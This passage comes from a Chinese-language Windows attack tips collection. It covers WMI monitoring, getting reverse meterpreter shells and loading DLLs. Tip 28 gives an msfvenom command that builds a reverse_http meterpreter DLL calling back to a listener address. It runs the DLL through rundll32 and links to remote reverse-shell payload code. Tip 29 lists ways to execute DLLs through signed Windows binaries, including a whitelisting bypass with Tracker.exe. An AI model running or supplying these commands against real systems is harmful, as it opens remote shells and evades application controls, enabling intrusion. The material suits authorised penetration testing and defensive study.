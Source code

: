 管理员也许会使用WMI记录攻击者调用WMI的操作，可通过wmic查看，当然通过wmic也能关闭该监控功能

参考：《Study Notes Weekly No.1(Monitor WMI &amp; ExportsToC++ &amp; Use DiskCleanup bypass UAC))》

#### Tips 28. Windows系统反弹meterpreter的常用方法

方法1：通过rundll32加载dll反弹meterpreter

msf：

```
msfvenom -p windows/meterpreter/reverse_http -f dll LHOST=192.168.174.133 LPORT=8080&gt;./a.dll
```

生成a.dll,然后上传至测试主机

执行`rundll32.exe a.dll,Control_RunDLL`，即可上线

方法2：通过cpl反弹meterpreter

代码见https://raw.githubusercontent.com/3gstudent/test/master/meterpreter_reverse_tcp.cpp

生成dll，重命名为cpl，双击执行

方法3：通过powershell反弹meterpreter

https://raw.githubusercontent.com/3gstudent/Code-Execution-and-Process-Injection/master/2-CodeExecution-Meterpreter.ps1

#### Tips 29. Windows系统加载dll的方法

方法1：rundll32

```
rundll32 a.dll,EntryPoint
```

方法2：regsvr32

```
regsvr32 a.dll
```

参考：《Code Execution of Regsvr32.exe》

方法3：odbcconf

```
odbcconf.exe /a {regsvr c:\test\odbcconf.dll}
```

参考：《Study Notes Weekly No.3(Use odbcconf to load dll &amp; Get-Exports &amp; ETW USB Keylogger)》

方法4：Tracker

```
Tracker.exe /d test.dll /c svchost.exe
```

tracker.exe包含微软数字签名，可绕过应用程序白名单的限制

参考：《Study Notes Weekly No.4(Use tracker to load dll &amp; Use csi to bypass UMCI &amp; Execute C# from XSLT file)》
